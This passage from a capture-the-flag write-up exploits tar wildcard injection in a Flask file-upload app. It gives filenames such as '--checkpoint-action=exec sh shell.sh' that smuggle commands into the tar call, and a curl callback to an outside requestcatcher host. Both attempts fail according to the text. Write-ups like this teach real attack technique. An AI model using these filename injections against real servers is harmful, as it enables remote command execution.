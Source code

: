 The application runs on a simple Flask server in Python. With this in mind, it becomes clear why there aren't any particular restrictions on the types of files accepted: without PHP, it won't be possible to execute webshells and other scripts that we might have uploaded.

However, we can see that the `/api/download` functionality uses `os.system` to perform a wildcard `tar` operation :

```python
os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")
```

This takes every files within our upload folder and create a `.tar` archive. tar wildcards is a well-known vector for arbitrary command execution. In fact, it is possible to supply arguments as filename and to execute arbitrary OS commands using the checkpoint arguments :

```txt
      --checkpoint[=NUMBER]
              display progress messages every NUMBERth record (default 10)

       --checkpoint-action=ACTION
              execute ACTION on each checkpoint
```

Looks like we've just found our entry point! Let's see how we can exploit it.

## Exploit

We tried at first to upload a bash script and to see if we could execute it to have a callback.

1. upload a file named `--checkpoint=1`
2. upload a file named `--checkpoint-action=exec sh shell.sh`
3. upload the `shell.sh` script :

```bash
#!/bin/bash

curl -X POST -d 'Hello World!' https://happi.requestcatcher.com/test
```

We upload the various files and and then... TADA!
![[no-req.png]]

Shit, we didn't get any callback, what the hell happened. Had to get back to source code to see what happened.

The challenge creator played a trick on us: the files are actually uploaded without their content as he used `file = request.files.get('file', None)` instead of `file = request.files[file]`. Our `shell.sh` script is therefore empty !

What's left then ? To deal with this, we tried to use bash commands directly in the filename. We try to upload a file with name `--checksec-action=exec=sh curl -X POST -d 'Hello World!' https://happi.requestcatcher.com/test` directly and see if we can get a callback now.

![[no-req-2.png]]

Well, the answer is no :')
